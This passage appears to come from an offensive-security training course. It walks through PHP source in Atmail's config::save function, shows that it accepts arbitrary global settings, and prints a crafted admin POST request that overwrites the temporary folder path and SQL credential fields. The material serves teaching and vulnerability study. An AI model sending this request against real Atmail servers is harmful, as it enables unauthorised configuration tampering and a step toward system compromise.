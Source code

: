 63: 
64: 						}
65: 
66: 					} 
67: 					else if( $existingRow['keyType'] == 'Boolean') 
68: 					{
69: 
70: 						$existingRow['keyValue'] = (in_array( $newValue, array('yes','Yes', 'YES', 1, '1', true, 'true') )?'1':'0');
71: 						$result = $dbAdapter->update($dbConfig->database->params->configtable,$existingRow, $dbAdapter->quoteinto('configId = ?',  $existingRow['configId']) );
72:                         
73: 					}
74: 					else
75: 					{
76: 
77: 						$existingRow['keyValue'] = trim($newValue);
78: 						$result = $dbAdapter->update($dbConfig->database->params->configtable,$existingRow, $dbAdapter->quoteinto('configId = ?',  $existingRow['configId']) );
79: 						
80: 					}
81: 					$responseMatchFoundInDb = true;
82: 					break;
83: 
84: 				}   
85: 
86:  ...
Listing 34 - Implementation of the config::save function in /usr/local/atmail/webmail/application/models/config.php

Listing 34 shows that the code allows us to successfully update any global setting of our choosing since there are no implemented checks on which settings are updated. The function only checks for the existence of the requested field in the database.

In other words, the Atmail developers failed to account for in-transit modification of legitimate requests and assumed that only the intended subset of global settings that is exposed through the web UI could be updated.

Finally, a malicious request to update the temporary folder path would look similar to this:

POST /index.php/admin/settings/globalsave HTTP/1.1 
Host: <atmail> 
Content-Type: application/x-www-form-urlencoded; charset=UTF-8 
Content-Length: 131 
Cookie: atmail6_admin=hr0e0hv45ce0t2rkjne561sb57 
Connection: close

save=1&fields[sql_user]=root&fields[sql_pass]=956ec84a45e0675851367c7e480ec0e9&fields[sql_table]=atmail6&fields[tmpFolderBaseName]= 
Listing 35 - Triggering the settings update

You may notice that in this request, we are using the hard coded MD5 value that we mentioned earlier but keep in mind that it is not required. The only thing we absolutely must have is the admin session cookie.
